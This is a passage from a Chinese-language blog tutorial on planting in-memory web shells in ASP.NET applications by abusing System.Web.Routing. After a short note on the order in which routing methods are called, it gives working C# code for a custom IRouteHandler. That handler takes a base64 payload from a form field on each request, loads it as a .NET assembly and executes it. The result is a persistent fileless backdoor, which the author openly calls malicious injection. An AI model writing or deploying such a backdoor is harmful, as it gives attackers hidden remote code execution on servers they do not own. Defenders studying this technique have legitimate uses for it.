 ```cpp
            return null;
        }
    }
```

#### 优先级

那么到底哪个函数会更先被调用呢？我在两个函数，以及Controller里分别加了一条打印的语句。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640524000533-4d4183a7-ff2b-472f-9584-bff72eddfcab.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640524014082-652f7178-5ee0-4370-bd51-265a843e0948.png)

发现顺序是 GetRouteData>Controller>GetVirtualPath，所以还是GetRouteData比较好用。

### 利用System.Web.Routing.Route

另一种做法就是沿着现有实现类Route的逻辑来走。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640441994513-2e0c4bed-e0fb-4e9c-bd0b-12c61249d2ed.png)

他的构造类需要两个参数，第一个是url pattern，第二个是对应的处理handler。

实现IRouteHandler接口需要实现GetHttpHandler方法，需要返回一个实现了IHttpHandler的handler

这里其实又有不同的操作了，内存马的本质是我们把恶意的代码注入到了一个每次Web请求都会触发的地方。

所以我们既可以在RouteHandler中添加恶意逻辑，也可以在实现的HttpHandler里加恶意逻辑。

#### 注入RouteHandler

```cpp
    public class MyRoute : IRouteHandler
    {
        public IHttpHandler GetHttpHandler(RequestContext requestContext)
        {
            HttpContext context = HttpContext.Current;
            String Payload = context.Request.Form["ant"];
            if (Payload != null)
            {
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                context.Response.End();
            }
            return null;
        }
    }
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640525962375-05101896-5e09-4c3b-9062-134da6e3e5d2.png)

报错不影响连接，如果有强迫症可以实现一个空的IHttpHandler。

#### 注入HttpHandler
